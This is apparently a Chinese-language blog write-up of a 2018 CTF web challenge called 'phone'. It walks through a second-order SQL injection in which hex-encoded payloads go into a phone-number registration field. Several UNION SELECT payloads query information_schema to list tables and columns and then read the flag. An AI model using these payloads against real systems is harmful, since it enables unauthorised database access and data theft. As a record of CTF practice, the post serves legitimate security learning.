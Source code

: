 ```yaml
---
layout:     post
title:      phone_wp
subtitle:   phone
date:       2018-08-28 				# 时间
author:     sh1llc0de					# 作者
catalog: true 						# 是否归档
tags:								#标签
    - CTF
---
```


>这次的感觉其实比上两场好多了，可以说是做容易的一场了。

## 开始
![](https://s1.ax1x.com/2018/08/28/PLLgqf.png)
打开网站就是这个样子，然后我就想到了我曾经在倾旋的博客上面看过原题。。原文在这：http://payloads.online/archivers/2017-11-14/1

然后我们开始做题吧，首先知道了是二次注入就已经非常容易了，记得昨天做这道题的时候，那叫一个蠢啊，我居然一个一个ascii码的去猜测。哎，说多了都是泪。

先测试一下是否存在注入吧，我们可以使用aaa' or 1=1 #的方法来判断，先要转下hex格式的，因为它这不接受非数字的手机号。
小葵先转换一波![](https://s1.ax1x.com/2018/08/28/PLOBwT.png)
或者使用python来实现,不过要直接加上0x
```
import binascii
print "0x"+binascii.b2a_hex(data)
```

![](https://s1.ax1x.com/2018/08/28/PLOOXt.png)
发现居然存在一个和我们手机号aaa一样的，这是不可能的，所以就猜测是因为后面的or 1=1 导致的，也就证明存在注入。

然后是查库，，，不存在的，我昨天就是死在这个上面。。我们为啥要查库？直接查表不好吗？
```sql
aaa' union select group_concat(table_name) from information_schema.tables where table_schema=database() order by 1 desc#
```
同样的转成hex在注册。
![](https://s1.ax1x.com/2018/08/28/PLXmAU.png)
然后解释一下payload的吧，首先是union联合查询，因为前面的aaa查不多，所以执行后面的语句，我们是直接利用默认库来查的表名，但是我们不知道库名啊，直接用database()代替啊。最后order by 1 desc是倒叙排列。

知道了表名就可以查字段了，额，首先flag肯定是在flag表里面的。然后我们就直接利用上面的payload，只要修改一些就行了。
```sql
aaa' union select group_concat(column_name) from information_schema.columns where table_name="flag" order by 1 desc#
```
![](https://s1.ax1x.com/2018/08/28/PLjVxA.png)

字段名也有了，可以直接查flag了。
```sql
aaa' union select f14g from flag order by 1 desc#
```
![](https://s1.ax1x.com/2018/08/28/PLjsz9.png)

## 总结：经验不足，自己还是太垃圾了。

